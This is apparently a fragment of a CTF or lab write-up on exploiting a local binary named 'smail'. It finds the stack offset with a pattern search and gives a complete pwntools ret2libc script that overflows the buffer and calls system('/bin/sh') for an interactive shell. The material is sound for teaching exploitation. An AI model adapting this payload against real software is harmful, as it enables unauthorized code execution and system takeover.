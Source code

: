 r - To run

Copy pattern into signature


![image41](../resources/d91daec5859849958a5a22def752e3f0.png)

- Find the offset:

```bash
pattern search $rsp

```

![image42](../resources/2fb9362824de4672aef6c4749afdbab7.png)

- Create the payload (pwntools):

```python
#!/usr/bin/python3

from pwn import *

p = process('./smail')

# Addresses (example: these would need to match your libc + binary setup)
libc_base = 0x7ffff79e2000
system = libc_base + 0x4f550
binsh = libc_base + 0x1b3e1a
POP_RDI = 0x4007f3  # pop rdi; ret gadget

# Create the payload
payload = b'A' * 72                   # Buffer overflow padding
payload += p64(0x400556)              # Optional stack alignment (ret)
payload += p64(POP_RDI)               # Gadget to control RDI
payload += p64(binsh)                 # "/bin/sh" address
payload += p64(system)                # system("/bin/sh")
payload += p64(0x0)                   # Optional return address

# Interact with the process
p.clean()
p.sendline("2")
p.sendline(payload)
p.interactive()
```
